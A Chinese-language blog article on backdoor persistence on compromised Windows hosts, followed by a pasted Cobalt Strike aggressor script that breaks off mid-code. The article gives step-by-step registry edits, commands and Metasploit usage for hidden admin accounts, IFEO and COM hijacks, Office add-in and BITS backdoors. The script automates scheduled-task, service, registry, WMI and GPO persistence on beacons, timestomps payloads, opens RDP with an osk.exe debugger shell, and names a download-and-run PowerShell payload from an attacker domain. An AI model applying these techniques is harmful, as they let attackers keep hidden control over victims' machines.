Windows中常见后门持久化方法总结
前言
当我们通过各种方法拿到一个服务器的权限的时候，我们下一步要做的就是后渗透了，而后门持久化也是我们后渗透很重要的一部分，下面我来总结一下windows下常见的后门持久化的方法

后门持久化
我的操作环境是：
无AV、管理员权限（提权、免杀等是后门持久化的铺垫，当然有的方法也并不是全部需要这些铺垫）
操作系统：
win7，windows server 2008R2，xp
shift后门
这个是比较老的方式了，这里简单讲一下，在windows中有一些辅助功能，能在用户未登录系统之前可以通过组合键来启动它，类似的辅助功能有：
C:\Windows\System32\sethc.exe粘滞键，启动快捷键：按五次shift键C:\Windows\System32\utilman.exe设置中心，启动快捷键：Windows+U键
在低版本的windows中，我们可以直接把setch.exe替换成我们的后门程序，下面我们把setch.exe替换为cmd.exe


映像劫持
这个和shift后门差不多，只不过在低版本的windows中，我们可以简单地替换程序，但是在高版本的windows版本中替换的文件受到了系统的保护，所以这里我们要使用另外一个知识点：映像劫持。
"映像劫持"，也被称为"IFEO"（Image File Execution Options）
就是Image File Execution Options（其实应该称为"image Hijack"。）是为一些在默认系统环境中运行时可能引发错误的程序执行体提供特殊的环境设定。由于这个项主要是用来调试程序用的，对一般用户意义不大。默认是只有管理员和local system有权读写修改。
PS：来自百度百科简单来说就是当目标程序被映像劫持时，当我们启动目标程序时，启动的是劫持后的程序而不是原来的程序
操作也很简单，在注册表的HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Option下添加一个项sethc.exe，然后在sethc.exe这个项中添加debugger键，键值为我们恶意程序的路径，如下图

效果如下

注册表自启动项
MSF的Persistence模块利用的就是写注册表自启动项来实现的，一般自启动项是这两个键：Run和RunOnce，两者的区别如下
Run：该项下的键值即为开机启动项，每一次随着开机而启动。
RunOnce：RunOnce和Run差不多，唯一的区别就是RunOnce的键值只作用一次，执行完毕后就会自动删除
常见注册表启动项键的位置：
用户级
\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce系统级
\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
\HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Run
\HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\RunOnce修改一下

执行结果

定时任务
windows下定时任务的命令有两个分别是：at和schtasks，他们两者主要区别是at命令在win7、08等高版本的windows中是不能将任务在前台执行的，也就是只会打开一个后台进程，而schtasks是将定时的任务在前台执行，下面我们逐个看看
at的一些参数
AT [\\computername] time [/INTERACTIVE]
[ /EVERY:date[,...] | /NEXT:date[,...]] "command"at的执行如下

schtasks一些参数：
schtasks /create /tn TaskName /tr TaskRun /sc schedule [/mo modifier] [/d day] [/m month[,month...] [/i IdleTime] [/st StartTime] [/sd StartDate] [/ed EndDate] [/s computer [/u [domain\]user /p password]] [/ru {[Domain\]User | "System"} [/rp Password]] /?schtasks的执行如下

用户登陆初始化
Userinit的作用是用户在进行登陆初始化设置时，WinLogon进程会执行指定的login scripts，所以我们可以修改它的键值来添加我们要执行的程序
注册表路径为：HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit，我们添加一个我们启动的程序，多个程序用逗号隔开

效果如下：

Logon Scripts
Logon Scripts优先于av先执行，我们可以利用这一点来绕过av的敏感操作拦截
注册表路径为：HKEY_CURRENT_USER\Environment，创建一个键为：UserInitMprLogonScript，其键值为我们要启动的程序路径

效果如下

屏幕保护程序
在对方开启屏幕保护的情况下，我们可以修改屏保程序为我们的恶意程序从而达到后门持久化的目的
其中屏幕保护的配置存储在注册表中，其位置为：HKEY_CURRENT_USER\Control Panel\Desktop，关键键值如下：
SCRNSAVE.EXE- 默认屏幕保护程序，我们可以把这个键值改为我们的恶意程序ScreenSaveActive- 1表示屏幕保护是启动状态，0表示表示屏幕保护是关闭状态ScreenSaverTimeout- 指定屏幕保护程序启动前系统的空闲事件，单位为秒，默认为900（15分钟）
设置如下：

效果图：

自启动服务
自启动服务一般是在电脑启动后在后台加载指定的服务程序，我们可以将exe文件注册为服务，也可以将dll文件注册为服务
为了方便起见我们可以直接用Metasploit来注册一个服务
meterpreter > run metsvc -A
运行之后msf会在%TMP%目录下创建一个随机名称的文件夹，然后在该文件夹里面生成三个文件：metsvc.dll、metsvc-server.exe、metsvc.exe

同时会新建一个服务，其显示名称为Meterpreter，服务名称为metsvc，启动类型为"自动"，默认绑定在31337端口。


如果想删除服务，可以执行
meterpreter > run metsvc -r
影子用户
影子用户顾名思义就是一个隐藏用户，只能通过注册表查看这个用户，其它方式是找不到这个用户的信息的
在用户名后面加一个$可以创建一个匿名用户，创建完毕后我们再把这个用户添加到administrator组
net user test$ test /add
net localgroup administrators test$ /add可以看到net user是看不到我们创建的用户，但是计算机管理-用户和组中可以看到

所以这时候我们就需要修改一下注册表，其键位置为：HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users
注意：SAM键值默认是只能system权限修改的，所以我们要修改一下SAM键的权限，给予administrator完全控制和读取的权限

然后我们将administrator用户对应的项中的F值复制到test$对应xiang中的F值，然后保存

然后我们将test$删除掉
net user test$ /del然后再双击导出的注册表文件，然后我们再看一下

net user和计算机管理-用户和组中都查看不到用户了，但是我们可以用net user test$查看用户信息
这个时候我们再用net user test$ /del是删除不掉这个用户的，只能通过注册表来删除。
waitfor
关于waitfor手册中是这么解释的：
在系统上发送或等待信号。waitfor可用于跨网络同步计算机。waitfor的语法
waitfor [/s <Computer> [/u [<Domain>\]<User> [/p [<Password>]]]] /si <SignalName>
waitfor [/t <Timeout>] <SignalName>参数解释：
/s <Computer> 指定远程计算机的名称或IP地址，默认为本地计算机
/u [<Domain>]<user> 使用指定用户帐户的凭据运行脚本。默认是使用当前用户的凭据。
/p <Password> 指定/u参数中指定的用户帐户的密码。
/si 发送指定激活信号。
/t 指定等待信号的秒数。默认为无限期等待。
<SignalName> 指定等待或发送的信号，不区分大小写，长度不能超过225个字符关于waitfor更多的信息可以看一下微软提供的手册：链接
我们来测试一下看看
waitfor test && calc 表示接收信号成功后执行计算器
waitfor /s 192.168.163.143 /u qiyou /p qiyou /si test结果如下

但是这样只能执行一次，这对我们后门持久化很不利，所以我们得想办法让它持久化。
这里就要借用一下三好师傅的powershell脚本：https://github.com/3gstudent/Waitfor-Persistence/blob/master/Waitfor-Persistence.ps1，三好师傅的分析：https://3gstudent.github.io/3gstudent.github.io/Use-Waitfor.exe-to-maintain-persistence/
执行效果如下：

该方法的优点就是能主动激活，但是缺点也明显就是只能在同一网段才能接收和发送激活信号、服务器重启之后就不行了。
CLR
CLR的简述（来自百度百科）
CLR(公共语言运行库,Common Language Runtime)和Java虚拟机一样也是一个运行时环境，是一个可由多种编程语言使用的运行环境。CLR的核心功能包括：内存管理、程序集加载、安全性、异常处理和线程同步，可由面向CLR的所有语言使用。并保证应用和底层操作系统之间必要的分离。CLR是.NET Framework的主要执行引需要注意的是CLR能够劫持系统中全部.net程序，而且系统默认会调用.net程序，从而导致我们的后门自动触发，这是我们后门持久化的一个好的思路，下面来实现一下
修改一下注册表，注册表路径：HKEY_CURRENT_USER\Software\Classes\CLSID\，新建子项{11111111-1111-1111-1111-111111111111}（名字随便，只要不与注册表中存在的名称冲突就行），然后再新建子项InProcServer32，新建一个键ThreadingModel，键值为：Apartment，默认的键值为我们dll的路径

然后在cmd下设置一下：
PS：要注册为全局变量，不然只能在当前cmd窗口劫持.net程序
SETX COR_ENABLE_PROFILING=1 /M
SETX COR_PROFILER={11111111-1111-1111-1111-111111111111} /M然后执行一波，效果如下，可以看到已经成功劫持了

Hijack CAccPropServicesClass and MMDeviceEnumerator
什么是COM（来自WIKI）
组件对象模型（英语：Component Object Model，缩写COM）是微软的一套软件组件的二进制接口标准。这使得跨编程语言的进程间通信、动态对象创建成为可能。COM是多项微软技术与框架的基础，包括OLE、OLE自动化、ActiveX、COM+、DCOM、Windows shell、DirectX、Windows Runtime。这个和CRL劫持.NET程序类似，也是通过修改CLSID下的注册表键值，实现对CAccPropServicesClass和MMDeviceEnumerator的劫持，而系统很多正常程序启动时需要调用这两个实例，所以这个很适合我们的后门持久化。
经测试貌似64位系统下不行（或许是我姿势的问题），但是32位系统下可以，下面说一下32位系统利用方法：
在%APPDATA%\Microsoft\Installer\{BCDE0395-E52F-467C-8E3D-C4579291692E}\下放入我们的后门dll，重命名为test._dl
PS：如果Installer文件夹不存在，则依次创建Installer\{BCDE0395-E52F-467C-8E3D-C4579291692E}

然后就是修改注册表了，在注册表位置为：HKCU\Software\Classes\CLSID\下创建项{b5f8350b-0548-48b1-a6ee-88bd00b4a5e7}，然后再创建一个子项InprocServer32，默认为我们的dll文件路径：C:\Users\qiyou\AppData\Roaming\Microsoft\Installer\{BCDE0395-E52F-467C-8E3D-C4579291692E}，再创建一个键ThreadingModel，其键值为：Apartment

然后就是测试了，打开iexplore.exe，成功弹框

PS：{b5f8350b-0548-48b1-a6ee-88bd00b4a5e7}对应CAccPropServicesClass，{BCDE0395-E52F-467C-8E3D-C4579291692E}对应MMDeviceEnumerator
劫持MruPidlList
在注册表位置为HKCU\Software\Classes\CLSID\下创建项{42aedc87-2188-41fd-b9a3-0c966feabec1}，再创建一个子项InprocServer32，默认的键值为我们的dll路径，再创建一个键ThreadingModel，其键值：Apartment

该注册表对应COM对象MruPidlList，作用于shell32.dll，而shell32.dll是Windows的32位外壳动态链接库文件，用于打开网页和文件，建立文件时的默认文件名的设置等大量功能。其中explorer.exe会调用shell32.dll，然后会加载COM对象MruPidlList，从而触发我们的dll文件

当用户重启时或者重新创建一个explorer.exe进程时，就会加载我们的恶意dll文件，从而达到后门持久化的效果。这里我们直接结束一个explorer.exe进程再起一个进程来看一下效果

office系列
Word WLL
把dll文件保存在%APPDATA%\Microsoft\Word\Startup，然后把后缀名改为wll
PS：Startup支持启动多个wll
打开word，成功弹框

Excel XLL
Excel dll的编写可以参考三好师傅这个项目：链接
用三好师傅powershell脚本生成现成的Excel dll：链接
将生成的DLL文件复制到%appdata%\Microsoft\AddIns目录下，然后再修改一下注册表，office版本对应的注册表位置如下：
office2003 — HKEY_CURRENT_USER\Software\Microsoft\Office\11.0\
office2007 — HKEY_CURRENT_USER\Software\Microsoft\Office\12.0\
office2010 — HKEY_CURRENT_USER\Software\Microsoft\Office\14.0\
office2013 — HKEY_CURRENT_USER\Software\Microsoft\Office\15.0\
office2016 — HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\我这里使用的2010的，所以我们要修改的是HKEY_CURRENT_USER\Software\Microsoft\Office\14.0\Excel\Options，添加一个键OPEN，键值为：/R test.dll

然后打开Excel，发现成功弹出计算器

PowerPoint VBA add-ins
用三好师傅powershell脚本生成现成的PowerPoint dll：https://github.com/3gstudent/Office-Persistence
将生成的DLL文件复制到%appdata%\Microsoft\AddIns目录下，然后参考前面我给出的office版本对应的注册表位置，在HKEY_CURRENT_USER\Software\Microsoft\Office\14.0\PowerPoint下新建一个子项：AddIns，然后在AddIns下面新建一个子项test，新建一个键为Autoload，类型为DWORD，键值为：1；新建一个键为Path，类型为SZ，键值为我们dll文件的路径

打开PowerPoint成功弹出计算器

文件关联
什么是文件关联
文件关联就是将一种类型的文件与一个可以打开它的程序建立起一种依存关系。一个文件可以与多个应用程序发生关联。可以利用文件的“打开方式”进行关联选择。
举个例子来说，位图文件（BMP文件）在Windows中的默认关联程序是“图片”，如果将其默认关联改为用ACDSee程序来打开，那么ACDSee就成了它的默认关联程序。
PS：来自百度百科我们可以用assoc命令显示或修改文件扩展名关联，我们可以看一下.txt文件的关联

我们可以用ftype命令显示或修改用在文件扩展名关联中的文件类型

相关注册表
HKEY_CURRENT_USER\Software\Classe //保存了当前用户的类注册和文件扩展名信息
HKEY_LOCAL_MACHINE\Software\Classe //保存了系统所有用户用户的类注册和文件扩展名信息
HKEY_CLASS_ROOT //HKEY_CLASSES_ROOT项提供合并来自上面两个的信息的注册表的视图我们以.txt为例，通过文件关联来修改它默认打开的程序。
修改\HKEY_CLASS_ROOT\txtfile\shell\open\command的默认值为我们要执行的程序

效果如下：

AppInit_DLLs
User32.dll被加载到进程时，会读取AppInit_DLLs注册表项，如果有值，调用LoadLibrary() api加载用户dll。
其注册表位置为：HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs，把AppInit_DLLs的键值设置为我们dll路径，将LoadAppInit_DLLs设置为1

效果如下：

Netsh helper
netsh（全称：Network Shell） 是windows系统本身提供的功能强大的网络配置命令行工具，它可以添加自定的dll从而拓展其功能，我们可以使用netsh add helper yourdll.dll来添加拓展功能，添加了之后，在启动netsh的时候就会加载我们dll文件
添加自定义helper dll
关于helper dll的编写可以参考这个项目：https://github.com/outflanknl/NetshHelperBeacon
我们可以使用两种方式来添加helper：
通过cmd添加helper
netsh add helper test.dll

2.通过注册表添加helper
其位置为：HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NetSh，创建一个键，名称随便，键值为我们dll的路径

效果如下

利用BITS
BITS (后台智能传送服务) 是一个 Windows 组件，它可以在前台或后台异步传输文件，为保证其他网络应用程序获得响应而调整传输速度，并在重新启动计算机或重新建立网络连接之后自动恢复文件传输。
bitsadmin是一个命令行工具，用于创建下载或上传任务并监视其进度。你可以执行bitsadmin /?或bitsadmin /HELP获取帮助列表。
常见的bitsadmin命令
bitsadmin /create [type] DisplayName //创建一个任务
bitsadmin /cancel <Job> //删除一个任务
bitsadmin /list /allusers /verbose //列出所有任务
bitsadmin /AddFile <Job> <RemoteURL> <LocalName> //给任务test添加一个下载文件
bitsadmin /SetNotifyCmdLine <Job> <ProgramName> [ProgramParameters] //设置在任务完成传输时或任务进入状态时将运行的命令行命令。
bitsadmin /Resume <Job> //激活传输队列中的新任务或挂起的任务。
bitsadmin /cancel <Job> //删除某个任务
bitsadmin /reset /allusers //删除所有任务
bitsadmin /complete <Job> //完成某个任务下面我们来测试一下：
bitsadmin /create test
bitsadmin /addfile test c:\windows\system32\calc.exe c:\Users\qiyou\Desktop\calc.exe //为了方便起见我们直接复制本地文件
bitsadmin /SetNotifyCmdLine test cmd.exe "cmd.exe /c calc.exe"
bitsadmin /resume test效果如下

重启电脑之后任务还是存在

重启电脑之后任务会再一次被激活，大概几分钟之后我们的命令会再次执行（由于时间太长了就不录制gif了）

如果我们想让任务完成，可以执行bitsadmin /complete test，calc.exe也会复制到桌面上

利用inf文件实现后门
inf文件
INF文件或安装信息文件是Microsoft Windows用于安装软件和驱动程序的纯文本文件。INF文件最常用于安装硬件组件的设备驱动程序。Windows包含用于创建基于INF的安装的IExpress工具。INF文件是Windows安装程序API及其后续版本Windows Installer的一部分。
PS：来自WIKIinf文件的结构
想了解更多可以看一下微软的手册：链接#information-inf-file-entries "链接")
1. DefaultInstall节（来自WIKI）
INF文件的结构与INI文件的结构非常类似; 它包含用于指定要复制的文件，对注册表的更改等的各个部分。所有INF文件都包含一个[Version]带有Signature 键值对的部分，用于指定INF文件所针对的Windows版本。签名通常是$CHICAGO$（对于Windows 9x）或$WINDOWS NT$（对于Windows NT / 2K / XP）。其余大多数部分是用户定义的，并且包含特定于要安装的组件的信息。
2. DefaultInstall节（来自微软的手册）
RunPreSetupCommands-本节中指定的命令在安装服务配置文件之前运行。
RunPostSetupCommands-本节中指定的命令在安装程序完成服务配置文件后运行。
RunPreUnInstCommands-本节中指定的命令在卸载程序开始之前运行。
RunPostUnInstCommands-本节中指定的命令在卸载程序运行后运行。下面举一个calc.inf弹计算器的例子
[Version]
Signature="$CHICAGO$"
AdvancedINF=2.5,"test"
[DefaultInstall]
RunPreSetupCommands=Command1
[Command1]
C:\windows\system32\calc.exe命令行下执行：
rundll32.exe advpack.dll,LaunchINFSection calc.inf,DefaultInstall效果如下

后门实现：
在注册表HKEY_CURRENT_USER\Software\Microsoft\处依次新建子项\IEAK\GroupPolicy\PendingGPOs，然后再新建几个键，如下：
键：
Count，类型：REG_DWORD，键值：1键：
Path1，类型：REG_SZ，键值：C:\Users\Administrator\Desktop\test\calc.inf//这个为我们inf文件的路径，这里以上面那个inf文件例子为例键：
Section1，类型：REG_SZ，键值：DefaultInstall
如下图所示

重启电脑之后成功弹出计算器

但是重启之后PendingGPOs该项就会被清除，需要我们重新修改注册表
后记
以上就是我所总结后门持久化的所有内容了，当然还有很多方法没有在文章内提及，虽然有的方法都是老生常谈的了，但是还是在一些实战环境中屡试不爽，有一句话说的好（这句话忘记是哪位师傅说的了=。=）：知识面宽度决定攻击面广度，知识链深度决定攻击链的长度
Reference
https://github.com/Ridter/Intranet_Penetration_Tips
https://paper.seebug.org/1007/
https://3gstudent.github.io/

分享一个自己修改汉化的CS的权限维持CNA脚本
#计划任务函数sub persistUserSchtasks {$bid = $1;$dialog = dialog("User Schtasks Persistence", %(taskname => "Evil Task Name..", targetpath => "Target Path..", user => "User to Run as..", payloadfile => "Select DLL Payload.."), lambda({if ("$3['taskname']" ismatch 'Evil Task Name..' || "$3['targetpath']" ismatch 'Target Path..' || "$3['payloadfile']" ismatch 'Select DLL Payload..' || "$3['user']" ismatch 'User to Run as..') {berror($bid, "\c4Please enter a valid Task Name, Target Path, and a valid Payload File.");break;}else {bcd($bid, $3['targetpath']);bupload($bid, $3['payloadfile']);bshell($bid, 'schtasks /create /RL HIGHEST /F /tn "'.$3['taskname'].'" /tr "'.$3['targetpath']."\\".split("/",$3['payloadfile'])[-1].'" /ru "'.$3['user'].'" /sc ONSTART '); #修改自定义的计划任务命令bshell($bid, 'schtasks /query /v /tn "'.$3['taskname'].'" /FO list');}}));dialog_description($dialog, "计划任务持久性 - Generates a schtask for persistence on selected beacon.");drow_text($dialog, "taskname", "计划任务名称:"); #设置计划任务的名称drow_text($dialog, "user", "运行的用户:"); #运行程序到用户名称drow_text($dialog, "targetpath", "执行exe的目标路径:"); #上传到目标drow_file($dialog, "payloadfile", "DLL Payload上传到目标路径里面:"); #木马上传dbutton_action($dialog, "Create");dialog_show($dialog);}#服务启动项sub persistCustomService {$bid = $1;$dialog = dialog("Admin Level Custom Service EXE Persistence", %(servicename => "Custom Service Name..", display => "Display Name for Custom Service..", description => "Description for Custom Service..", targetpath => "Target Path..", payloadfile => "Select Payload.."), lambda({if ("$3['servicename']" ismatch 'Custom Service Name..' || "$3['targetpath']" ismatch 'Target Path..' || "$3['display']" ismatch 'Display Name for Custom Service..' || "$3['description']" ismatch 'Description for Custom Service..' || "$3['payloadfile']" ismatch 'Select Payload..') {berror($bid, "\c4Please enter a valid Custom Service Name, Target Path, Display Name, Description and Payload File.");break;}else {bcd($bid, $3['targetpath']);bupload($bid, $3['payloadfile']);btimestomp($bid, "$3['payloadfile']", "C:\\Windows\\System32\\cmd.exe");bshell($bid, 'sc delete "'.$3['servicename'].'"');bshell($bid, 'sc create "'.$3['servicename'].'" binpath= '.$3['targetpath']."\\".split("/",$3['payloadfile'])[-1].' error= ignore start= auto DisplayName= "'.$3['display'].'"');bshell($bid, 'sc description "'.$3['servicename'].'" "'.$3['description'].'"');bshell($bid, 'sc start "'.$3['servicename'].'"');}}));dialog_description($dialog, "Generates a Custom Service for Admin Level persistence on selected beacon. **Only Service EXE Payloads should be used**");drow_text($dialog, "servicename", "自定义服务名称:");drow_text($dialog, "display", "自定义服务的显示名称:");drow_text($dialog, "description", "自定义服务的说明:");drow_text($dialog, "targetpath", "目标/二进制exe的路径:");drow_file($dialog, "payloadfile", "Payload:");dbutton_action($dialog, "Create");dialog_show($dialog);}#注册表启动项sub persistRegistry {$bid = $1;$dialog = dialog("Registry Persistence", %(reglocation => "Registry Location..", keyname => "Key Name..", datatype => "Data Type..(REG_SZ)", keyvalue => "Key Value..(Payload)"), lambda({if ("$3['reglocation']" ismatch 'Registry Location..' || "$3['keyname']" ismatch 'Key Name..' || "$3['datatype']" ismatch 'Data Type..(REG_SZ)' || "$3['keyvalue']" ismatch 'Key Value..(Payload)') {berror($bid, "\c4Please enter a valid Registry Location, Key Name, Key Type, and a valid Payload Location.");break;}else {bshell($bid, 'reg add "'.$3['reglocation'].'" /v "'.$3['keyname'].'" /t "'.$3['datatype'].'" /d "'.$3['keyvalue'].'" /f');bshell($bid, 'reg query "'.$3['reglocation'].'"');}}));dialog_description($dialog, "Registry Persistence - Creates a custom Registry Entry for persistence on selected beacon. **HKLM\\ could require elevated access.");drow_text($dialog, "reglocation", "注册表位置:"); #HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\rundrow_text($dialog, "keyname", "注册表项名称:"); #注册表名称drow_text($dialog, "datatype", "注册表项类型:"); #类型参考：https://www.cnblogs.com/qingtian224/p/9071709.htmldrow_text($dialog, "keyvalue", "注册表的值(payload路径):"); #木马路径dbutton_action($dialog, "Create");dialog_show($dialog);}#WMI启动项sub persistwmieventwmic {$bid = $1;$dialog = dialog("Permanent WMI Event using WMIC Persistence", %(eventfilter => "__EventFilter Name..", eventquery => "Event Query...(Win32 Classes)", eventconsumer => "CommandLineEventConsumer Name..(Must be different from __EventFilter Name)", commandline => "CommandLineTemplate Syntax..(powershell.exe -w hidden -enc)", payloadfile => "Encoded Payload String.."), lambda({if ("$3['eventfilter']" ismatch '__EventFilter Name..' || "$3['eventquery']" ismatch 'Event Query...(Win32 Classes)' || "$3['eventconsumer']" ismatch 'CommandLineEventConsumer Name..(Must be different from __EventFilter Name)' || "$3['commandline']" ismatch 'CommandLineTemplate Syntax..(powershell.exe -w hidden)' || "$3['payloadfile']" ismatch 'Select Encoded Payload..') {berror($bid, "\c4Please enter a valid Custom __EventFilter Name, Event Query, CommandLineEventConsumer Name, Command Line Options, and the Encoded Payload File.");break;}else {bshell($bid, 'wmic /NAMESPACE:"\\\root\subscription" PATH __EventFilter CREATE Name="'.$3['eventfilter'].'", EventNameSpace="root\cimv2", QueryLanguage="WQL", Query="'.$3['eventquery'].'"');bshell($bid, 'wmic /NAMESPACE:"\\\root\subscription" PATH CommandLineEventConsumer CREATE Name="'.$3['eventconsumer'].'", CommandLineTemplate="'.$3['commandline']." ".split("/",$3['payloadfile'])[-1].'"');bshell($bid, 'wmic /NAMESPACE:"\\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"'.$3['eventfilter'].'\"", Consumer="CommandLineEventConsumer.Name=\"'.$3['eventconsumer'].'\""');bshell($bid, 'wmic /NAMESPACE:"\\\root\subscription" PATH __EventFilter GET __RELPATH /FORMAT:list');bshell($bid, 'wmic /NAMESPACE:"\\\root\subscription" PATH CommandLineEventConsumer GET __RELPATH /FORMAT:list');bshell($bid, 'wmic /NAMESPACE:"\\\root\subscription" PATH __FilterToConsumerBinding GET __RELPATH /FORMAT:list');}}));dialog_description($dialog, "Generates a Custom WMI Event using WMIC for SYSTEM Level persistence on selected beacon. **Syntax is heavy, Test before using on live targets. Encoded Payload must include IEX ((new-object new.webclient).downloadstring(http://yourdomain/payload.txt)) Utilize the following command to encode the payload correctly: cat payload.txt | iconv --to-code=UTF-16LE | base64** ");#base 64 encode IEX of the powershell one liner#cat payload.txt | iconv --to-code=UTF-16LE | base64drow_text($dialog, "eventfilter", "自定义事件筛选器:");drow_text($dialog, "eventquery", "自定义事件查询:");drow_text($dialog, "eventconsumer", "自定义命令行事件使用者:");drow_text($dialog, "commandline", "自定义命令行选项:");drow_text($dialog, "payloadfile", "Custom Encoded Payload String:");dbutton_action($dialog, "Create");dialog_show($dialog);}#WMI启动项-使用powershellsub persistwmievent {$bid = $1;if (-is64 $bid) {$ExePath = "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe -nop -w hidden -enc";}else {$ExePath = "C:\\Windows\\powershell.exe -nop -w hidden -enc";}$dialog = dialog("Permanent WMI Event Persistence with PowerShell", %(eventfilter => "__EventFilter Name..", eventquery => "Event Query...(Win32 Classes)", payloadstring => "Encoded Payload String.."), lambda({if ("$3['eventfilter']" ismatch '__EventFilter Name..' || "$3['eventquery']" ismatch 'Event Query...(Win32 Classes)' || "$3['payloadstring']" ismatch 'Encoded Payload String..') {berror($bid, "\c4Please enter a valid __EventFilter Name, Event Query, and an Encoded Payload String.");break;}else {$powershellcmd = "\$Filter=Set-WmiInstance -Class __EventFilter -Namespace \"root\\subscription\" -Arguments @{name=\"".$3['eventfilter']."\";EventNameSpace='root\\CimV2';QueryLanguage=\"WQL\";Query=\"".$3['eventquery']."\"};\$Consumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace \"root\\subscription\" -Arguments @{Name=\"".$3['eventfilter']."\";CommandLineTemplate =\"". $ExePath ." ".$3['payloadstring']."\"};Set-WmiInstance -Namespace \"root\\subscription\" -Class __FilterToConsumerBinding -Arguments @{Filter=\$Filter;Consumer=\$Consumer};";bpowershell!($bid, $powershellcmd);blog($bid, 'Permanently Storing '.$3['eventfilter'].' in root\CimV2..');bpowershell($bid, 'Get-WmiObject __eventFilter -namespace root\subscription -filter "name=\''.$3['eventfilter'].'\'"');bpowershell($bid, 'Get-WmiObject CommandLineEventConsumer -Namespace root\subscription -filter "name=\''.$3['eventfilter'].'\'"');}}));dialog_description($dialog, "Generates a Custom WMI Event using PowerShell for SYSTEM Level persistence on selected beacon. **Syntax is heavy, Test before using on live targets. Encoded Payload String must be converted to UTF-16LE, base64 encoded and under 1MB.**");drow_text($dialog, "eventfilter", "自定义事件筛选器:");drow_text($dialog, "eventquery", "自定义事件查询:");drow_text($dialog, "payloadstring", "Custom Encoded Payload String:");dbutton_action($dialog, "Create");dialog_show($dialog);}#Startup Script Local GPO Persistence#Author: @r3dQu1nn#Generates a Local GPO Entry in psscripts.ini to call a .ps1 script file for persistence on selected beacon#Calls back as SYSTEM#**Check permissions with GPO Enumeration (Successful GroupPolicy Directory Listing) first before executing**#**Beacon execution will cause winlogon.exe to hang and the end user can't login. Once the new beacon checks in inject into another process and kill the original. Update to come out soon.**#https://cybersyndicates.com/2016/01/system-context-persistence-in-gpo-startup/sub persistStartupGPO {$bid = $1;$dialog = dialog("Startup Script Local GPO Persistence", %(scriptfile => "Select PS1 Script File.."), lambda({if ("$3['scriptfile']" ismatch 'Select PS1 Script File..') {berror($bid, "\c4Please enter a valid Script Path, and .ps1 Script File.");break;}else {bcd($bid, "C:\\");bupload($bid, $3['scriptfile']);$handle = openf(">psscripts.ini");writeb($handle, "[ScriptsConfig]\nStartExecutePSFirst=true\n[Startup]\n0CmdLine=".split("/",$3['scriptfile'])[-1]."\n0Parameters=");closef($handle);bpowershell($bid, 'Move-Item -force -path C:\\'.split("/",$3['scriptfile'])[-1].' -destination C:\\Windows\\System32\\GroupPolicy\\Machine\\Scripts\\Startup\\');bupload($bid, script_resource("psscripts.ini"));bpowershell($bid, 'Remove-Item -Force C:\\Windows\\System32\\GroupPolicy\\Machine\\Scripts\\psscripts.ini');bpowershell($bid, 'Move-Item -force -path C:\\psscripts.ini -destination C:\\Windows\\System32\\GroupPolicy\\Machine\\Scripts\\');bshell($bid, 'gpupdate /force');}}));dialog_description($dialog, "Startup Script Local GPO Persistence - Generates a Local GPO Entry in psscripts.ini to call a .ps1 script file for persistence on selected beacon. **Check permissions with GPO Enumeration (Successful GroupPolicy Directory Listing) first before executing**");drow_file($dialog, "scriptfile", ".ps1 Script File:");dbutton_action($dialog, "Create");dialog_show($dialog);}sub stickykeys {bshell($1, 'REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f');bshell($1, 'REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" /v Debugger /t REG_SZ /d "c:\windows\system32\cmd.exe"');bshell($1, 'REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d "0" /f');bshell($1, 'netsh firewall set service type = remotedesktop mode = enable');bshell($1, 'netsh advfirewall firewall set rule group="remote desktop" new enable=Yes');bshell($1, 'net start TermService');}sub persistThroughStartUpFolder {$bid = $1;$dialog = dialog("Start Up Folder Persistence", %(startup => "Startup Directory Folder..", payload => "Select Payload.."), lambda({if ("$3['startup']" ismatch 'Startup Directory Folder..' || "$3['payload']" ismatch 'Select Payload..') {berror($bid, "\c4Please enter a valid Startup Directory Folder, and select a Payload")break;}else {bshell($bid, 'cd "'.$3['startup'].'"');bupload($bid, $3['payload']);btimestomp($bid, "$3['payload']", "c:\\windows\\system32\\calc.exe");}}));dialog_description($dialog, "Start Up Folder Persistence - Generates a Startup Folder Entry and places a payload inside that folder. **Windows NT 6.0-10.0/All Users Location - %SystemDrive%\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup | Windows NT 6.0-10.0/Current User Location %SystemDrive%\Users\%UserName%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup");drow_text($dialog, "startup", "StartUp Directory Folder Location:");drow_text($dialog, "payload", "Select Payload:");dbutton_action($dialog, "Create");dialog_show($dialog);}# Used for "Create Backdoor Service" actionsub servicefilename {$servicebackdoorfilename = matches($1, '[\/](\w+\.\w+)$');$servicebackdoorfilename = $servicebackdoorfilename[0];return $servicebackdoorfilename;}# 菜单驱动的操作，创建一个ntfs备用数据流后门# 启动时自动运行。不需要管理员sub createADSBackdoor {$bid = $1;$selectedListener = $2;getADSRegName();bpowershell_import($bid, script_resource("scripts/Invoke-ADSBackdoor.ps1"));prompt_text("Location of file/folder to give ADS (it must exist!)?", "%APPDATA%\\local\\Temp\\somefile.txt", {# Encode shellcode for the stager$psPayload = powershell_encode_stager(shellcode($selectedListener));$fullPsPayload = 